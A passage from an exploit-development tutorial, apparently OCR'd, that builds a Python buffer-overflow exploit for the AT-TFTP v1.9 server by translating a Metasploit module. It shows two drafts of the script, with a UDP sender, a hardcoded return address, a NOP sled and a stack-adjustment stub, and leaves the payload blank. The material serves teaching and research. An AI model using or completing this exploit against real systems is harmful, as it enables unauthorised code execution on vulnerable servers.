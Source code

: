 About the only step in there which should sound a little challenging is this stack adjustment business, but really as with all things it’s a lot easier than it sounds.

-Let’s begin with a very bare bones UDP framework for sending information to the target.

#nano at-tftp.py
# AT-TFTP v1.9 Exploit
# Written for Strategic Security
import sys, socket
# Use in the form "python attftp_long_filename.py <IP Address> <Port> <Your IP Address>"
host = sys.argv[1]                        	# Receive IP from user
port = int(sys.argv[2])                	# Receive Port from user
exploit = ""                                     	# Out future exploit location
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)  # Declare a UDP socket
client.sendto(exploit, (host, port))                                                      	# Send the exploit 

over UDP to the nominated addresses



-Now from here a lot of the information is going to be straight translations from the ruby counterparts. This includes creating the appropriate sized NOPs and the return address, along with the information we know will be sent to set up the exploit itself. Let’s incorporate that into our framework.

# AT-TFTP v1.9 Exploit
# Written for Strategic Security
import sys, socket

# Use in the form "python attftp_long_filename.py <Target IP Address> <Port> <Your IP

Address>"
host = sys.argv[1]                        	# Receive IP from user
lhost = sys.argv[3]
port = int(sys.argv[2])                	# Receive Port from user
ret = "\x53\x93\x42\x7e"         	# Return address - Source Metasploit (Little Endian)
nop = "\x90" * (25-len(lhost))	# Create a NOP string as to bring NOPs + LHOST up to 25 bytes
payload = ""                                   	# Payload to be calculated
exploit = "\x00\x02" + nop + payload + ret + "\x83\xc4\x28\xc3\x00netascii\x00"  	# Our exploit so far
client = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) # Declare a UDP socket
client.sendto(exploit, (host, port))         	# Send the exploit over UDP to the nominated
addresses
